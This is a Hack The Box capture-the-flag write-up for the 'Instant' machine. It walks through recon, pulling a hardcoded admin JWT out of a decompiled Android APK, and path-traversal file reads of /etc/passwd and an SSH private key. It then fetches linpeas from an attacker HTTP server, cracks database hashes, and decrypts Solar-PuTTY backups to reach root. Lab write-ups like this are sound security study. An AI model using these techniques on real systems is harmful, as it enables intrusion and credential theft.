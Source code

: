 +++
title = 'Hack The Box: Instant'
date = 2024-11-17T19:49:44+02:00
draft = false
showpage = true
ctfcard = true
photoname = 'instant_cert.png'
ctf_name = 'Instant'
cert_path = 'https://www.hackthebox.com/achievement/machine/2124852/630'
+++

Let's scan the machine with nmap.

```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 31:83:eb:9f:15:f8:40:a5:04:9c:cb:3f:f6:ec:49:76 (ECDSA)
|_  256 6f:66:03:47:0e:8a:e0:03:97:67:5b:41:cf:e2:c7:c7 (ED25519)
80/tcp open  http    Apache httpd 2.4.58
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.58 (Ubuntu)
|_http-title: Did not follow redirect to http://instant.htb/
Service Info: Host: instant.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

We have an Http Server running at port 80. 
In order to get access, we need to modify the `/etc/hosts` file, or use a tool like Burpsuite to change the Host header of the request to `Host: instant.htb`

```bash
# access the endpoint from the browser
sudo echo "10.10.11.37  instant.htb" >> /etc/hosts
```
The website is promoting an android application that offers customers cross-platform transactions. 

![alt](lab1.png)

We searched the website for any interesting endpoint that could be vulnerable to SQL injection or XSS vulnerability, but unfortunately there is nothing notable.

```bash
# Also used directory bruteforcing just to be sure
gobuster dir -u http://instant.htb/ -w /usr/share/worldlist/dirb/big.txt

# Then proceed with subdomain bruteforcing
ffuf -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt -u http://instant.htb/ -H "Host: FUZZ.instant.htb"
```

Nothing... so let's download and examine the application by requesting `http://instant.htb/downloads/instant.apk` or by simply clicking the "Download Now" button.

First, we can use the `apkurlgrep` tool ([Github Repo](https://github.com/ndelphit/apkurlgrep)) to extract endpoints from the apk.

```bash
apkurlgrep -a instant.apk >> apkUrls.txt
```

![alt](lab2.png)

So we found a subdomain, `mywalletv1.instant.htb` that has some api endpoints for authentication and user activities.

Modify the `/etc/hosts` file accordingly and now let's try to access these endpoints while proxying the traffic with Burpsuite. 

![alt](lab3.png)

We get a `201` response with 'Unauthorized' message. We don't know a lot about the api yet, so we should see if we can find out more by the application.

Let's use a decompiler, like `jadx` to inspect the code. In order to launch the GUI version, navigate to the bin directory and execute `jadx-gui`. Now open the `instant.apk` file. 

Right off the bat we can see at `AdminActivities` class, a private function `TestAdminAuthorization` that constructs a new http request to `/api/v1/view/profile` and adds a header, `Authorization: <JWT Token>`
![alt](lab4.png)

We may be able to use this token to authenticate as Admin.

![alt](lab5.png)
![alt](lab6.png)

Great! We are authorized to view the profile of admin.

Even though we got some useful information, something is missing. Continue with enumeration of `inspect.apk`.

We can unzip an Android `.apk`, exactly like a `.zip` file, but in this case to examine in more detail we will use `apktool`.

```bash
apktool d instant.apk -o instant-app
```

One thing we can check right away, is the `res/xml/network_security_config.xml` file, which is used to specify security details like certificate pins and HTTP traffic settings. An example is allowing HTTP traffic for specific domains. ([HackTricks - Basic understanding of the application](https://book.hacktricks.xyz/mobile-pentesting/android-app-pentesting#basic-understanding-of-the-application-manifest.xml-strings.xml))

```bash
cat instant-app/res/xml/network_security_config.xml

# results
<?xml version="1.0" encoding="utf-8"?>
<network-security-config>
    <domain-config cleartextTrafficPermitted="true">
        <domain includeSubdomains="true">mywalletv1.instant.htb</domain>
        <domain includeSubdomains="true">swagger-ui.instant.htb</domain>
    </domain-config>
</network-security-config>
```

We got another subdomain, `swagger-ui.instant.htb`, which is the UI version of Swagger (framework that allows developers to create interactive, machine and human-readable API documentation).

![alt](lab7.png)

Here we can see all the endpoints of the Api. Something we didn't know is that there is logging system, which is interesting.

There is a `/admin/read/log` endpoint which is locked. In order to access it we need to provide the authorization token along with the file name.

![alt](lab8.png)
![alt](lab9.png)

Let's try to put a path like, `../../../etc/passwd`.

![alt](lab10.png)
![alt](lab11.png)

We just found a LFI (Local File Inclusion) vulnerability.

We can leverage this to find the private ssh key. Usually it is at `.ssh/id_rsa`. 

![alt](lab12.png)

And we got the private key. Now we can save it to a file locally and connect with ssh to the machine.

```bash
vim private_key #Save private key to a file

chmod 600 private_key #Give appropriate permissions

ssh -i private_key shirohige@10.10.11.37 #Connect with ssh
```

Nice, we got a foothold to the machine.

First examined `sudo -l`, `capabilities`, `crontab`, but nothing interesting popped up, so before proceeding into manual enumeration of the system, we could run `linpeas.sh` to see if we can find anything usefull.

```bash
python3 -m http.server 1234 #Start a server in kali

wget http://<ip_address>:1234/linpeas.sh #Download linpeas to the machine
```

Now we can execute the script. Some promising results are:
- Found a `SECRET_KEY` (`VeryStrongS3cretKeyY0uC4NTGET`) variable at `.env`
- Possible `snapd` vulnerability, if it is `2.37.1` or newer
- Possible usefull file at `opt/backups/Solar-PuTTY/sessions-backup.dat`
- Encrypted passwords for Users in Database (sqlite is used)
![alt](lab13.png)
<br>

Unfortunately, the `SECRET_KEY` password does't work for root and `snapd` version is way higher than `2.37.1`. So let's look into the `instant.db` file.

```bash
# Transfer instant.db with http.server or scp to Kali Linux
# Then connect to the database and examine
sqlite3 instant.db

sqlite3> .tables #see if there is any table with credentials
sqlite3> .schema wallet_users
sqlite3> .mode column #change output to column representation (easier to read)
sqlite3> select * from wallet_users;
```
![alt](lab14.png)
![alt](lab15.png)
![alt](lab16.png)

We have three passwords to crack.

Let's try to decrypt the `pbkdf2:sha256` password. By googling `pbkdf2:sha256 cracker site: github.com` we can find [Werkzeug-Cracker](https://github.com/AnataarXVI/Werkzeug-Cracker) tool.

We got nothing by brute-forcing the admin password, but we found that the password for `shirohige` is `estrella`.

```bash
python3 werkzeug_cracker.py -p hash.txt -w /usr/share/wordlists/dirb/others/best1050.txt
```
Again we can't `su root` with this password.

Next is to check the `opt/backups/Solar-PuTTY/sessions-backup.dat` file. `Solar-Putty` is an application that allows its users to connect remotely with `ssh`, `telnet` etc to the server (despite their OS). There might be credentials into that backup file.

By searching `sessions backup solar putty file linux site: github.com` we found [SolarPuttyDecrypt](https://github.com/VoidSec/SolarPuttyDecrypt), a tool to decrypt `sessions-backup.dat`.

![alt](lab17.png)
 
After running the script in a Windows VM we found the credentials for root user.

![alt](lab18.png)
